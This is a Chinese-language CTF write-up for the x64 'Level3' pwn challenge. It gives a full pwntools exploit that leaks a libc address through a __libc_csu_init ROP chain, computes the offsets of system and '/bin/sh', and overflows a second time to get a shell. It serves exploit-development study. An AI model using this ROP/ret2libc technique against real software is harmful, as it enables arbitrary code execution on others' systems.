




# Level3_x64

查看程序保护



检查反汇编





这题跟level3内容一样，不同的是该题是x64的，需要注意的点是参数的构建，以及level2_x64中提到的栈平衡问题，payload如下

```python
from pwn import *
import time 

level3_x64 = ELF('./level3_x64')
sh = process('./level3_x64')

# gdb.attach(sh)
# sleep(15)


libc_main_got = level3_x64.got['__libc_start_main']
main_address = level3_x64.symbols['main']
vulnerable_function_address = level3_x64.symbols['vulnerable_function']
write_plt = level3_x64.plt['write']
write_got = level3_x64.got['write']

pop_rbx_rbp_r12_r13_r14_r15_ret = 0x4006AA
pop_rdi_ret = 0x4006b3
retn = 0x400690

temp = 0x40061B

sh.recvline()                                            
payload = flat([b'a'*136,p64(pop_rbx_rbp_r12_r13_r14_r15_ret),\ 					p64(0),p64(1),p64(write_got),p64(0x8),p64(libc_main_got),p64(0x1),p64(retn),\
b'a'*56,p64(temp)])

sh.send(payload)

address = sh.recvline()
address = address[:8]
address = int.from_bytes(address, byteorder='little')

system_address = address + 0x2e300
binsh_offset = address + 0x19062D


payload2 = flat([b'a'*136,p64(pop_rdi_ret),p64(binsh_offset),p64(system_address),p64(0xcafecafecafecafe)])
# print(payload2)
sh.send(payload2)


sh.interactive()


```

总结：

构建参数可以利用__libc_csu_ini 这个函数，如图



我利用r12,设置了r12为write的got地址，这样便去执行了write函数，打印libc_main的地址，利用偏移算system与binsh的地址，返回到main函数(注意栈平衡的问题)，继续二次溢出。